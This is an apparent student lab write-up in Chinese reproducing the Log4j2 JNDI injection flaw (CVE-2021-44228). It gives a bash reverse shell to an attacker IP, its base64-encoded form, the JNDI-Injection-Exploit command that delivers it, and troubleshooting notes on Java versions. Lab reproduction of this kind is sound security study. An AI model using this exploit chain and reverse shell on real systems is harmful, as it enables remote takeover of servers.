


# log4j2漏洞利用复现

## 漏洞原理

通过网上一张图解释漏洞原理，java应用程序提供的jndi
接口自动记录日志，并且会执行${jndi:ldap:}命令，因此只要提供一个恶意代码文件，就能通过这个命令让靶机去攻击机查找并下载病毒文件，然后返回poc.class给攻击机从而攻击机获得shell权限。


## 下载maven安装包

`wget https://dlcdn.apache.org/maven/maven-3/3.9.4/binaries/apache-maven-3.9.4-bin.tar.gz`



通过命令`tar -zxvf apache-maven-3.9.4-bin.tar.gz`解压缩

在解压目录能够发现apache-mave-3.9.4文件


修改配置文件`vim /etc/profil`,在配置文件上添加相应的环境变量

```python
export MAVEN_HOME=/root/apache-maven-3.9.4 
export PATH=$MAVEN_HOME/bin:$PATH
```


`source /etc/profile`刷新配置文件，以确保修改生效

mvn安装完成


## 安装jndi注入工具

克隆github提供的注入包，这里是已经克隆好的


切换到 JNDI-Injection-Exploit目录，通过`mvn clean package -DskipTests命令编译打包`


接下来就可以利用JNDI注入工具进行攻击

## 注入攻击

构建反弹shell到攻击者主机端口，靶机定向到攻击机后自动下载ExecTemplateJDK8.class文件，然后触发，攻击机获取shell权限：

`bash -i >& /dev/tcp/192.168.249.8/6667 0>&1`命令进行URL编码`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==`，IP指定为攻击机IP，端口选取未被占用端口

监听6667端口


构建注入命令

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
     -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==}|{base64,-d}|{bash,-i}" \
     -A "192.168.249.8"
```


可以通过java -version查询相应的版本并选取来构造payload，之前kali默认按安装2.0版本，降级为1.8版本（这地方存在问题，后文会说）


选取`rmi://192.168.249.8:1099/fswrwl`进行URL编码并payload构造


和之前环境利用测试的一样会瞬间连接并断开


获得shell


flag在shell的tmp文件中


## 问题和解决

### java 版本


之前构造payload后拿不到反弹shell，检查java版本过高，然后将攻击机和靶机都降级为1.8版本，但是还是无法获得shell。随后以为是trustURLCodebase原因，trustURLCodebase为true的1.8版本无法实现注入，反而是`Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):`能够实现注入，比较反常

### http 版本

观察端口可以发现，搭建的java进程都是IPv6通信，当时怀疑是协议不对称的问题导致的


于是更换为IPV4java进程，但是依旧无法获得shell




### 服务器原因

考虑到JNDI搭建的服务器断开连接并且访问攻击机8180显示访问页面为空，搭建http服务能够看见相应的文件，猜测会是服务器没有正确将本地文件进行挂载


但是通过curl攻击机均有回复


并且能够通过URL获取ExecTemplateJDK8.class


因此服务器应该是能够将class文件正确挂载

### 攻击手段原因

直接使用bash命令不进行包装是能够成功的，因此是注入工具出现问题


### 环境

攻击机和靶机均应不大于java1.8

## 参考文档

[maven 的安装与配置（Command ‘mvn‘ not found）修改配置文件后新终端依旧无法识别到 mvn 命令](https://myon6.blog.csdn.net/article/details/136558685?spm=1001.2014.3001.5502)

[log4j2 远程代码执行漏洞复现（CVE-2021-44228）](https://blog.csdn.net/Myon5/article/details/136548391)

[Kali安装JAVA8和切换JDK版本的详细过程](https://blog.csdn.net/huayimy/article/details/130273362)

[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）](https://blog.csdn.net/Bossfrank/article/details/130148819)

[网络空间安全综合实践](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#)
